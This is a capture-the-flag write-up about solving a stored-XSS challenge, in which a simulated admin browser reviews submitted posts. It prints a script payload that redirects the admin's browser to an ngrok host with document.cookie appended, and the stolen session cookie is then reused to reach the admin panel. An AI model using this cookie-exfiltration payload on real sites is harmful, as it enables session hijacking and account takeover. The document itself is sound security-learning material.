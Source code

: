 # Notes

The challenge includes a link to a website. Based on the name of the challenge (as determined from the fragment path when linking to that specific challenge) this probably involves XSS.

There is a text area on the page which will POST to the server. This would be an obvious avenue for possible XSS vulnerability.

However, I haven't seen anything to indicate that that the content from that text area sent to the server is actually displayed anywhere. Submitting the form gives back a response with a static message "Your post was submitted for review. Administator will take a look shortly."

There is an "Admin" link which goes to the `/admin` path, but it returns a `303 See Other` response with an empty body and the location being the root path.

I can browse the directories under `/static` which includes the CSS file and two images displayed on the root page, but no other files are present. There is no `static/images/flag.png` or (or `.jpg`).

I might need to come back to this.

(the next day)

Someone on the John Hammond Discord was willing to trade hints with me (for some help with reversing-emoji). They mentioned that this was an XSS attack to get cookies data. They also mentioned requestbin (which I hadn't heard of).

I was misunderstanding what was involved with this kind of challenge - there's basically an automated simulation of an admin user who will "check" the uploaded post. I assumed that my data was going into a black hole, but it's actually being requested and executed by a browser somewhere on the CTF servers.

With this knowledge, and a cursory glance at what requestbin does, I figured out that I could use XSS to direct the "admin" browser to a different URL (I used ngrok for this since I have it installed already). I was able to confirm it with the following XSS attack value: `<script>document.location = "http://xxxxxx.ngrok.io/";</script>`.

With that confirmed, and knowing that the cookie data is perhaps what I need (maybe to access the admin panel, idk). I tried the following XSS attack value: `<script>document.location = "http://xxxxxx.ngrok.io/?cookie=" + encodeURI(document.cookie);</script>`. This sent a request to my ngrok instance which included a `flag` cookie with the flag as its value:
```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```

It also included a `session` cookie which I figured I could add to my browser to gain access to the admin panel. Trying that, the admin page yielded the same flag from above.
